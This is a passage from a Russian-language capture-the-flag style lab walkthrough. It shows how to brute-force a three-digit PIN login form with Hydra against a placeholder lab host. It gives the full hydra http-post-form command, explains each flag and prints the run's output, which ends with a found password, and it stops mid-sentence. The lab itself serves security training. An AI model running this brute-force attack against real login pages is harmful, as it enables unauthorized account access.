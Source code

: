 Прежде чем начать, нам нужно просмотреть HTML-код страницы. Это можно сделать, щелкнув правой кнопкой мыши на 
странице и выбрав «Просмотреть исходный код страницы». Вы заметите, что: 

Метод заключается в следующем:post
URL-адрес:http://MACHINE_IP:8000/login.php
Значение PIN-кода отправляется вместе с именем pin
HTML-код, относящийся к форме ввода ПИН-кода.

Другими словами, главная страница входа http://MACHINE_IP:8000/pin.php получает ввод от пользователя и отправляет 
его, /login.php используя имя pin. 

Эти три фрагмента информации, post, /login.phpи pin, необходимы для установки аргументов в пользу Гидры.

Мы будем использовать hydraдля проверки каждого возможного пароля, который можно ввести в систему. Команда для 
подбора вышеуказанной формы: 
```commandline
hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```
Команда выше будет пробовать один пароль за другим в 3digits.txt файле. Она указывает следующее:
- -l ''указывает, что имя пользователя пустое, так как для блокировки безопасности требуется только пароль
- -P 3digits.txt указывает файл паролей для использования
- -f останавливает Гидру после нахождения рабочего пароля
- -v обеспечивает подробный вывод и полезен для обнаружения ошибок
- MACHINE_IP это IP-адрес цели
- http-post-form указывает метод HTTP для использования
- "/login.php:pin=^PASS^:Access denied"состоит из трех частей, разделенных:
- /login.php это страница, на которой отправляется PIN-код
- pin=^PASS^заменит ^PASS^значениями из списка паролей
- Access denied указывает, что неверные пароли приведут к странице с текстом «Доступ запрещен»
- -s 8000указывает номер порта на целевом устройстве
Пришло время запустить hydra и узнать пароль. Обратите внимание, что в этом случае мы ожидаем, hydra что поиск пароля 
  займет три минуты. Ниже приведен пример запуска команды выше: 

Терминал AttackBox
```commandline
root@AttackBox# hydra -l '' -P 3digits.txt -f -v MACHINE_IP http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-19 17:38:42
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 1109 login tries (l:1/p:1109), ~70 tries per task
[DATA] attacking http-post-form://MACHINE_IP:8000/login.php:pin=^PASS^:Access denied
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[...]
[VERBOSE] Page redirected to http[s]://MACHINE_IP:8000/error.php
[8000][http-post-form] host: MACHINE_IP   password: [redacted]
[STATUS] attack finished for MACHINE_IP (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-10-19 17:39:24
```
Команда выше показывает, что hydra успешно найден рабочий пароль. На AttackBox выполнение команды выше должно 